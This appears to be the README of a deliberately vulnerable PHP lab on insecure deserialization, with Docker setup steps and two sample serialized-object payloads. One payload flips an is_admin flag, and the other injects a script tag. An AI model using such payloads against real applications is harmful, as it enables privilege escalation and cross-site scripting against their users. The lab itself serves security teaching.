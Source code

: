 # insecure-deserialization-php
## Setup
```bash
git clone https://github.com/tinkerscript/insecure-deserialization-php.git
cd insecure-deserialization-php
docker build -t insec-d-php .
docker run -p 8088:80 insec-d-php
```
Visit http://localhost:8088/
## Payloads
Safe:
```
O:4:"User":2:{s:4:"name";s:4:"John";s:8:"is_admin";b:1;}
```
Unsafe:
```
O:11:"UnsafeClass":1:{s:7:"payload";s:32:"<script>alert('hacked')</script>";}
```
